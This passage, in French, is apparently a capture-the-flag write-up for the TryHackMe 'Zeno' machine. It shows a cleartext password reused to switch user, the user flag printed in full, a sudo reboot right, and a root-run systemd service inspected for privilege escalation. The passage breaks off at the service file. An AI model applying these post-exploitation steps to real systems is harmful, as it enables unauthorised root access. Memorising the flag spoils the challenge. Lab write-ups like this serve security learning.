 En énumérant le systeme on trouve des mots de passe.  
Il nous montre un mot de passe en clair qui est : FrobjoodAdkoonceanJa  

```bash
(remote) apache@zeno:/var/www/html/rms/images$ ls /home
edward
(remote) apache@zeno:/var/www/html/rms/images$ su edward
Password: 
```

On essaie le mot de passe pour se connecter en tant que edward, ça fonctionne.   

**Content of user.txt**

```bash
(remote) edward@zeno:/var/www/html/rms/images$ cd ~
(remote) edward@zeno:/home/edward$ ls
user.txt
(remote) edward@zeno:/home/edward$ cat user.txt 
THM{070cab2c9dc622e5d25c0709f6cb0510}
```

On va dans le répertoire edward et on lit le fichier user.txt.   
LE flag est : THM{070cab2c9dc622e5d25c0709f6cb0510}  
```

**Content of root.txt**  

```bash
(remote) edward@zeno:/home/edward$ sudo -l
Matching Defaults entries for edward on zeno:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User edward may run the following commands on zeno:
    (ALL) NOPASSWD: /usr/sbin/reboot
```

On peut redémarer le système sans mot de passe avec les droits root.  

```bash
(remote) edward@zeno:/home/edward$ systemctl -l
...
 zeno-monitoring.service                                       loaded failed failed    Zeno monitoring
```

On remarque un service non commun.  

```bash
remote) edward@zeno:/home/edward$ systemctl status  zeno-monitoring.service
* zeno-monitoring.service - Zeno monitoring
   Loaded: loaded (/etc/systemd/system/zeno-monitoring.service; enabled; vendor preset: disabled)
   Active: failed (Result: exit-code) since Fri 2021-11-05 13:51:27 CET; 1h 4min ago
  Process: 618 ExecStart=/root/zeno-monitoring.py (code=exited, status=1/FAILURE)
 Main PID: 618 (code=exited, status=1/FAILURE)

(remote) edward@zeno:/home/edward$ cat /etc/systemd/system/zeno-monitoring.service
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/root/zeno-monitoring.py
```